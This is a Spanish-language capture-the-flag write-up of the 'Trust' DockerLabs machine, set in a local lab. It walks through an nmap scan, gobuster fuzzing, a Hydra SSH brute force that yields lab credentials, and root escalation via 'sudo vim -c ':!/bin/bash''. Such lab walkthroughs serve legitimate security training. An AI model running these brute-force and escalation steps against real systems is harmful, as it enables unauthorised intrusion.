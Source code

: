 # 🖥️ Máquina Trust  
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 2 172.18.0.2
```

📡 Este comando enviará solo 2 paquetes ping a la dirección IP designada y luego terminará.

```
PING 172.18.0.2 (172.18.0.2) 56(84) bytes of data.
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.070 ms
64 bytes from 172.18.0.2: icmp_seq=2 ttl=64 time=0.130 ms 

--- 172.18.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1039ms
rtt min/avg/max/mdev = 0.070/0.100/0.130/0.030 ms
```

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ **Nmap**:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.18.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_trust_muyfacil/escaneo_trust.txt            
```

🧾 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso** 
- `-sC` Usa **scripts por defecto** 
- `--open` Muestra **solo puertos abiertos** 
- `-sV` Detecta la **versión de los servicios** 
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s** 
- `-n` Sin resolución DNS 
- `-vvv` Modo muy detallado 
- `-Pn` Sin ping al host antes de escanear 
- `-oN` Guarda el resultado en la ruta especificada 

---

## 📊 Resultado del escaneo

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%201.png)

🔍 Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

🌐 Al ingresar la dirección IP `172.18.0.2` nos muestra la página por defecto de **Apache**.

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%202.png)

---

## 🚀 Ataque de Fuzzing con GoBuster

Lanzamos un ataque de fuzzing con la herramienta 🧰 **GoBuster**:

```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,sh,py
```

📘 **Explicación del comando:**

- `dir` → Modo de búsqueda de **directorios y archivos**  
- `-u http://172.18.0.2/` → URL del servidor web   
- `-w ...` → Diccionario de palabras   
- `-x html,php,sh,py` → Extensiones a probar 

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%203.png)

Descubrimos el archivo `/secret.php`, el cual revela información útil:

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%204.png)

---

## 🧑‍💻 Fuerza Bruta con Hydra

Con el posible usuario `mario`, lanzamos un ataque de fuerza bruta con **Hydra** 🐍:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 50
```

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%205%20.png)

🔐 Ahora tenemos las credenciales:

- 👤 **Usuario**: `mario`  
- 🔑 **Contraseña**: `chocolate`

Nos conectamos por SSH:

```bash
ssh mario@172.18.0.2
```

---

## ⬆️ Escalada de Privilegios

📜 Verificamos permisos sudo:

```bash
sudo -l
```

```bash
User mario may run the following commands on 59cb77302414:
    (ALL) /usr/bin/vim
```

⚡ Podemos usar `vim` para obtener una shell como root:

```bash
sudo vim -c ':!/bin/bash'
```

📟 Verificación:

```bash
root@59cb77302414:/home/mario# whoami
root
```

